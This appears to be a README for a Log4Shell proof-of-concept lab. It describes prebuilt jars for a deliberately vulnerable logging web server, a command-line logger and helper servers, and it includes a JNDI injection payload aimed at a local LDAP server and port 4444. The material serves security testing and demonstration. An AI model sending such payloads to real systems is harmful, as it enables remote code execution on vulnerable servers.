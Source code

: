# l4s_poc_jars
These have the jar files that would be built in the l4s_poc repo.  If you have issues building them because of work restrictions pulling in external repos this should solve the issue.

## Client Jar
The client jar has a web server and a cmd line module.
### WebServer
java -jar l4sclients-0.1-all.jar [PORT]  
  
This will default to port 8888 and will log the header log_me  
If not found we look for a header log_me_b64 and base64 decode that header and log it.
It will also look for a single param called log_me.  Note it must be url encoded.

### CmdLine
You can also run a CmdLine that will log the first param passed in.  
java -cp l4sclients-0.1-all.jar Log4jCmdLine '${jndi:ldap://127.0.0.1:1389/#MM:127.0.0.1:4444}'  
  
Note this is the same jar but run as a classpath entry with an explict class listed.


## Utils Jar
If you create a dir target under l4sutils and copy the l4sutils-0.1-all.jar in that dir then you can run the run_servers.py




